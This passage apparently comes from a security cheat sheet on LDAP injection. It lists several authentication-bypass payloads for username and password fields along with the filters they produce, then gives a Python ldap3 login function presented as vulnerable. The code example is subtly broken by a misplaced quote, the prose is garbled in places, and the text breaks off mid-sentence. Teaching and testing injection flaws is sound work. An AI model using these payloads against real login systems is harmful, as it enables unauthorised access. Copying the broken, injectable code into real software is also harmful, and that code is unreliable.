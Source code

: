 
```
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```



```
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```



```
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```



```
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```

## EXAMPLE OF A VULNERABLE CODE:

```python
from ldap3 import Server, Connection, ALL, NTLM

def authenticate(username, password):
    server = Server('ldap://example.com', get_info=ALL)
    conn = Connection(server, user=f'example_domain\\{username}, password=password, authentication=NTLM')
    if conn.bind():
        print('Authentication succesfull')
    else:
        print('Authentication failed')

if __name__ == '__main__':
    username_input = input('Username: ')
    password_input = input('Password: ')

    authenticate(username_input, password_input)
```

This code is vulnerable due to its `username_input` parameter, it is injected directed on the server, so, an attacker can use this to bypass the login or get access to confidential data.

The code is also vulnerable due to the lack of poor sanitization and validation of the user input, with a correct sanitization and validation, this vulnerability would not occur, for example, an attacker could be able to pass in the following payload to get admin access:
